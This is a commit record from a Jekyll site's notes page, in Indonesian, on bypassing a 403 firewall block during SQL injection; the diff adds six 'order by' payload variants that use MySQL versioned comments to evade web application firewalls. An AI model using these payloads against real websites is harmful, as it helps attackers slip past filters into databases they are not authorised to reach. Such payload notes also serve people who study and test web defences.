

Before and after one commit to esoneXon/esoneXon.github.io, a Jekyll site: the page built from _wantToKnow/403BypassSQLI.md, in a window 1280 px wide. Shown: the top 897 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 403BypassSQLI.md

```diff
--- a/_wantToKnow/403BypassSQLI.md
+++ b/_wantToKnow/403BypassSQLI.md
@@ -6,6 +6,9 @@ permalink: /wantToKnow/403BSQLI/
 
 Assalamualaikum, Cara bypass 403 saat SQL Injection ?
 
-# In Order By
-- default = order by 1
-- bypass 1 = `/*!order*/ /*by*/ 1`
+- `/*!order*/ /*!by*/ 1`
+- `/*!50000order*/ /*!50000by*/ 1`
+- `/*!51000order*/ /*!50000by*/ 1`
+- `/*!12345order*/ /*!12345by*/ 1`
+- `/*!50000order/**-**/*/ /*!50000by*/ 1`
+- `/*!50000order/**-**/*/ /*!50000by/**-**/*/ 1`
```
